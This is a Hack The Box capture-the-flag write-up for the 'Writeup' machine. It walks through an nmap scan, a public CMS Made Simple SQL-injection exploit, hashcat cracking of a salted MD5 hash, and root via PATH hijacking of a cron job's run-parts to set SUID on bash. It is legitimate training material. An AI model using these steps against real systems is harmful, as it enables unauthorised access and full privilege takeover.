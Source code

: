 # HTB - Writeup

#### Ip: 10.129.134.255
#### Name: Writeup
#### Rating: Easy

----------------------------------------------------------------------

![Writeup.png](../assets/writeup_assets/Writeup.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.10.138
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-04 15:30 CDT
Nmap scan report for 10.10.10.138
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 372e1468aeb9c2342b6ed992bcbfbd28 (ECDSA)
|_  256 93eaa84042c1a83385b35600621ca0ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.12 seconds
```

Checking out the page on port 80 it looks like a blog in the making, but doesn't yet contain any real content.

![writeup_site.png](../assets/writeup_assets/writeup_site.png)

There is a note about DOS protection in place, so I'll hold off on directory fuzzing and Nikto for now.

Nmap catches that there is a robots.txt page listing `/writeup` as a disallowed entry.

Navigating to that page we find a couple of HTB writeups:

![writeup_writeup.png](../assets/writeup_assets/writeup_writeup.png)

Using Wappalyzer we can see the site is running CMS Made Simple.

### Exploitation

Looking for public exploits I find: https://gist.github.com/kriss-u/321f0418778697e2ec919f04664ceb4b

Lets give the exploit a shot:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ python cms_made_simple_sqli.py -u http://10.10.10.138/writeup/ 
```

Nice, the exploit was able to get jkr's password hash:

![writeup_pw.png](../assets/writeup_assets/writeup_pw.png)

Lets add the hash and the salt to a file called jkr_hash and attempt to crack it:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ cat >> jkr_hash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashid jkr_hash                                    
--File 'jkr_hash'--
Analyzing '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807'
[+] MD5 
```

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashcat jkr_hash /usr/share/wordlists/rockyou.txt -m 20
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```
Awesome, Hashcat was able to crack this for us: `jkr:raykayjay9`

From here we can SSH in and grab the user.txt flag:

![writeup_user_flag.png](../assets/writeup_assets/writeup_user_flag.png)

### Privilege Escalation

Loading linpeas we see that we are able to write to `/usr/local/bin` and `/usr/local/games` which are also in our `$PATH`. This is definitely uncommon enough to warrant looking into.

![writeup_lp.png](../assets/writeup_assets/writeup_lp.png)

Lets load up pspy64 and get it listening for processes and then SSH in again in a separate shell:

![writeup_cron.png](../assets/writeup_assets/writeup_cron.png)

Interesting, it appears that once we SSH'd in, there is a cronjob using `run-parts` and it's running with root permissions, but luckily for us it does not use the absolute path. We should be able to hijack this by writing our own malicious run-parts file in `/usr/local/bin` and then it will execute as the root user when an SSH connection is opened. Lets try it:

```
jkr@writeup:/usr/local/bin$ echo "/bin/chmod 4755 /bin/bash" > /usr/local/bin/run-parts
jkr@writeup:/usr/local/bin$ chmod +x run-parts
<Start a new SSH session here>
jkr@writeup:/usr/local/bin$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
bash-4.4# hostname
writeup
```

Nice that worked! You can see above `run-parts` will SUID bit on bash (something only the root user could do), and when I started a new SSH session the root cronjob executed the script and I was able to drop into a root shell.

![writeup_root_flag.png](../assets/writeup_assets/writeup_root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------------------
